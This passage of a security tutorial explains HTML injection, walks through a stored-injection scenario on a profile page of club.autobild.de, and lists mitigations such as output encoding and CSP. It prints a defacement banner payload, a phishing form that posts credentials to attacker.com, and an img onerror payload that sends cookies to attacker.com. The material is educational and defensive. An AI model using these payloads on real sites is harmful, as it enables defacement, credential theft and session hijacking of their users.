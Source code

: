 
### Impact of HTML Injection

- **Defacement**: Alters page appearance, damaging user trust (e.g., red banners on `sportbild.bild.de`).
- **Phishing**: Injects fake forms to steal credentials (e.g., `<form action="attacker.com">`).
- **XSS Escalation**: If JavaScript is allowed, steals cookies, sessions, or performs actions.
- **SEO Damage**: Injected content (e.g., spam links) can harm search rankings.
- **Compliance Violations**: Exposing user data via phishing may violate GDPR or CCPA.
- **Severity**: Low (defacement) to High (XSS escalation), depending on context.

---

### Scenario 2: HTML Injection in a Profile Page

**Context**: A user profile page on `club.autobild.de` allows users to set a display name, which is shown on their profile without sanitization.

**How It Leads to Vulnerability**:
- The application renders the display name directly in HTML (e.g., `<h1>Welcome, [user_input]</h1>`).
- An attacker sets their display name to malicious HTML, which is displayed to all visitors.

**Attacker Manipulation**:
1. Attacker creates an account on `club.autobild.de`.
2. Sets display name to:
   ```html
   <div style="position:fixed;top:0;left:0;width:100%;background:black;color:white;">Site Hacked!</div>
   ```
3. The profile page renders a black banner covering the site, visible to all users.
4. To escalate to phishing, the attacker uses:
   ```html
   <form action="http://attacker.com/steal.php"><input type="text" name="username"><input type="password" name="password"><input type="submit" value="Login"></form>
   ```
   - Tricks users into entering credentials, sent to `attacker.com`.
5. For XSS, the attacker tries:
   ```html
   <img src=x onerror="fetch('http://attacker.com?cookie='+document.cookie)">
   ```
   - Steals session cookies if JavaScript executes.

**Impact**:
- **Stored HTML Injection**: Affects all profile visitors, amplifying damage.
- **Phishing**: Steals user credentials via fake forms.
- **Session Theft**: XSS escalation compromises user accounts.

---

### Mitigation Strategies (General)

- **Input Sanitization**:
  - Encode HTML characters (e.g., `<` to `&lt;`) using `htmlspecialchars` (PHP), `DOMPurify` (JavaScript), or template escaping (Flask/Jinja2).
- **Output Encoding**:
  - Use `textContent` instead of `innerHTML` in JavaScript.
  - Ensure frameworks auto-escape outputs (e.g., Jinja2, React).
- **Content Security Policy (CSP)**:
  - Block inline scripts to prevent XSS escalation:
    ```http
    Content-Security-Policy: script-src 'self'
    ```
- **Input Validation**:
  - Restrict inputs to alphanumeric characters where possible.
  - Use whitelists for allowed tags (e.g., `<b>`, `<i>`).
- **WAF Configuration**: